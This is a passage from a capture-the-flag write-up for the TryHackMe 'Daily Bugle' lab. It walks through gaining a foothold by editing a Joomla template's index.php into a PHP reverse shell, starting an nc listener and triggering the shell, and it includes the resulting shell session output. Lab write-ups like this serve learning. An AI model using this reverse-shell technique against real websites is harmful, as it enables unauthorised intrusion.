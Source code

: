 I'm in! Next, we need to get a shell in the target machine!

## Initial Foothold

**To get a shell in the target machine, I'll:**

- Go to "Extensions" -> "Templates" -> "Templates":

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Daily-Bugle/images/a6.png)

- Choose one of those templates:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Daily-Bugle/images/a7.png)

- Choose `index.php`, modify it to a PHP reverse shell, and click "Save":

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Daily-Bugle/images/a8.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Trigger the reverse shell via clicking the "Template Preview" button:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Daily-Bugle/images/a9.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.47.144] 48736
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:16:38 up 28 min,  0 users,  load average: 0.07, 0.08, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
bash: no job control in this shell
bash-4.2$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:f6:d8:0b:49:2f brd ff:ff:ff:ff:ff:ff
    inet 10.10.47.144/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3540sec preferred_lft 3540sec
    inet6 fe80::f6:d8ff:fe0b:492f/64 scope link 
       valid_lft forever preferred_lft forever
```
